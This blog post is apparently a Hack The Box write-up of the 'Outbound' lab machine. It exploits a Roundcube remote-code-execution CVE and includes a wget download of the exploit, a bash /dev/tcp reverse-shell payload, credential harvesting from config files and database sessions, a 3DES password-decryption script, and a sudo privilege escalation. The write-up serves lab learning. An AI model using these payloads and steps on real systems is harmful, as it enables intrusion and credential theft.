 
---
layout: default
title: "Outbound HTB Writeup"
date: 2025-07-20 13:54:00 +0300
categories: [HTBs]
tags: [cybersecurity, hacking, hackthebox, machines]
---

# Outbound HTB Writeup

## Importance of This Machine

Hello! Today I want to talk about a machine called **Outbound**. In my opinion, this machine was a great example of how important it is to keep up with cybersecurity news. In June 2025, the mail provider **cock.li** was hacked using a vulnerability identified as **CVE-2025-49113**.

## What is CVE-2025-49113?

**CVE-2025-49113** is an **authenticated remote code execution (RCE)** vulnerability in **Roundcube Webmail**.

## Writeup

### Initial Scanning

I started with an Nmap scan:

```

nmap -sV 10.10.11.77

````

Only two ports were open:

- SSH (22)
- HTTP (80)

### Exploring the Web Service

When I visited the HTTP port in the browser, I realized I needed to add `mail.outbound.htb` to my `/etc/hosts` file.

After that, accessing the domain revealed a Roundcube login page.

> (I actually remembered this from a previous leak 😅)

According to the information on the [Hack The Box machine page](https://app.hackthebox.com/machines/Outbound), we are given credentials for a user named **tyler**.

---

### Exploiting CVE-2025-49113

I used the public exploit for CVE-2025-49113:

```bash
wget https://raw.githubusercontent.com/fearsoff-org/CVE-2025-49113/refs/heads/main/CVE-2025-49113.php
````

Then ran:

```bash
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'sh -i >& /dev/tcp/10.10.14.87/2311 0>&1'"
```

> ✅ This gave me a shell as the `www` user!

---

### Enumeration

Inside the web directory, I found the Roundcube configuration file:

```bash
cat /var/www/html/roundcube/config/config.inc.php
```

It contained MySQL credentials:

```
Username: roundcube  
Password: RCDBPass2025
```

I logged into the database:

```bash
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube
```

Then ran:

```sql
USE roundcube;
SELECT * FROM session;
```

This revealed base64-encoded serialized session data. After decoding it, I found:

```
username|s:5:"jacob";
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
```

---

### Cracking the Password

To decrypt the password, I used the following Python script:

```python
from Crypto.Cipher import DES3
from base64 import b64decode

def decrypt_password(encrypted_password, key="rcmail-!24ByteDESkey*Str"):
    try:
        des_key = key.encode('utf-8')
        data = b64decode(encrypted_password)
        iv = data[:8]
        ciphertext = data[8:]
        
        cipher = DES3.new(des_key, DES3.MODE_CBC, iv=iv)
        decrypted = cipher.decrypt(ciphertext)
        
        return decrypted.rstrip(b"\0").decode('utf-8', errors='ignore')
        
    except Exception as e:
        return f"Error: {str(e)}"

encrypted = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
print(f"Decrypted password: {decrypt_password(encrypted)}")
```

**Output:**

```
Decrypted password: ********
```

Now, I could log in via SSH using Jacob’s credentials.

---

### Privilege Escalation

Once inside, I ran:

```bash
sudo -l
```

I had permission to run a binary called `below`. After some quick research, I found a [privilege escalation exploit](https://github.com/rvizx/CVE-2025-27591) for it.

Running the exploit script gave me **root access**.

---

Thanks for reading! 😄
Happy hacking!

